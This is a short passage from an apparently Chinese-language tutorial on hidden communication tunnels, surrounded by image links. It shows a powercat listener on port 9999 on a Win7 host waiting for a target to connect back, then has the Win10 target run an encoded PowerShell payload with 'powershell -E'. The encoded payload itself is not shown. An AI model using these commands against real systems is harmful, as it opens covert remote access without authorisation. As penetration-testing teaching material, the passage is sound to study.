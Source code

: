 ![](./img/隐藏通信隧道基础知识/59.png)

然后再Win7上监听9999端口等待目标连接：

```
powercat -l -p 9999 -v
```

![](./img/隐藏通信隧道基础知识/60.png)

最后在Win10上执行命令：

```
powershell -E 这里是刚刚生成的加密密文
```
